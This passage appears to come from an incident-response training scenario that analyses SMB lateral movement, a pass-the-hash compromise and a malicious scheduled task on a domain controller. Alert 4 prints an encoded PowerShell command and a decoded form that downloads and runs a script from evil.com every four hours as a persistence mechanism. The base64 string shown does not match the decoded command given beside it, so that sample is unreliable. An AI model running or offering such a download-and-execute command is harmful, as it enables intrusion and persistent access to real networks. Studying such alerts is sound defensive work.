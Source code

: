 **Telemetry Data (SMB Traffic Analysis):**
- **Source Hosts**: `IT-WKS02`, `FILE-SRV01`
- **Destination Hosts**: `FILE-SRV01`, `DB-SRV02`
- **Traffic Analysis**:
  - Multiple file enumeration commands were executed, including accessing shared directories on `FILE-SRV01` and `DB-SRV02`.
  - Files with extensions like `.xlsx`, `.docx`, and `.pdf` were accessed repeatedly, suggesting attempts to locate sensitive data.

**Analysis:**  
High SMB traffic volumes from `IT-WKS02` to file servers indicate lateral movement using SMB, a known technique for file exploration and data collection.

<div class="neon-line"></div>

#### **Alert 4: Unauthorized Scheduled Task Creation on Domain Controller (DC-01)**

**Telemetry Data (Scheduled Task Creation):**
- **Scheduled Task Name**: `SystemCheck`
- **Command**:
  ```shell
  powershell.exe -enc JABxPSdodHRwOi8vZXZpbC5jb20vbWFsaWNpb3VzLnBzMXInOyBJbnZva2UtRXhwcmVzc2lvbiAtQ29tbWFuZCAnJGEn
  ```
  - **Decoded Command**:
    ```shell
    Invoke-Expression -Command (New-Object Net.WebClient).DownloadString('http://evil.com/malicious.ps1')
    ```
- **Execution Interval**: Every 4 hours

**Analysis:**  
The scheduled task indicates a persistence mechanism designed to call an external PowerShell script every few hours. This allows the attacker to regain access even if the initial compromise is remediated.

<div class="neon-line"></div>

### **Investigation Steps**

This is a structured investigation flow for a comprehensive analysis of the incident.

#### **Step 1: Trace the Source of the NTLM Hash Compromise**

- **Identify How the Hash Was Obtained**:
  - Review `IT-WKS02` event logs to identify if the `ITSupport01` hash was cached or if there were any processes that captured credential hashes (e.g., through tools like Mimikatz).
  - Check for suspicious processes running on `IT-WKS02` and review security logs for any credential-dumping attempts.

#### **Step 2: Validate the Pass-the-Hash Attack**

- **Examine Authentication Logs Across Key Systems**:
  - Correlate NTLM logins from `IT-WKS02` to `FILE-SRV01`, `DB-SRV02`, and `DC-01`. Confirm if NTLM authentication patterns align with a PtH attack.
  - Determine if the compromised account (`ITSupport01`) has recent password reset events or unauthorized access to privileged accounts.

